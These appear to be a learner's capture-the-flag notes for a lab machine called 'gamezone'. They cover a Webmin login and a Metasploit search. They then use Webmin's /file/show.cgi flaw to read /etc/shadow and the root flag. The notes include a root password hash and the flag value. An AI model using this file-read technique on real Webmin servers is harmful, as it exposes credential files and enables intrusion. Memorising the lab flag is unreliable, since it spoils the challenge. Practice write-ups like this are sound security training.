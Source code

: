 109 packages can be updated.
68 updates are security updates.


Last login: Sat Feb 12 11:11:35 2022 from 10.11.59.68
agent47@gamezone:~$ 
#next I went to http://localhost:10000, where there was a Webmin login portal
#I proceeded to login with agent47:videogamer124

#the exposed CMS is webmin
        #a CMS is a Content Management System Software









## metasploit privesc ###
#finding a payload using metasploit
msf6 > search webmin 1.580

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
        #this is the exploits I found
        #I felt a bit in over my head so I looked up some help from a writeup

#the first one is apparently a good one, so I did some research on it and how to use it --> https://www.exploit-db.com/exploits/21851

#having a quick look at the exploit, it seems it is manipulating the login and sesssion cookies
        #however, there was no info regarding how to use it...but this website does: http://www.americaninfosec.com/research/dossiers/AISG-12-001.pdf

#the way it works is to add /file/show.cgi/<command> to the URL of the webmin:
http://localhost:10000/file/show.cgi/etc/shadow

#this can then be used to gain info we can use to login as root.
        #root's password is encrypte with $6$ aka SHA256/SHA512 and is therefore crackable using hashcat or john

#so I stored this in a file hash.txt:
root:$6$Llhg4MdC$f9TRe8xLelwHpj5JvCNprpWBnHppEnryPo1mGiKW2U71SpTVZRRE0f7/3kZsIwNsRpcc7GlcVSnuYfiN5n7Yw.:18124:0:99999:7:::
#I tried running it through john but no luck..

#therefore went straight to root directory via URL:
http://localhost:10000/file/show.cgi/root/root.txt

#and got the flag:
a4b945830144bdd71908d12d902adeee

#Ive realised I need to look over some password cracking with john and hashcat...


:))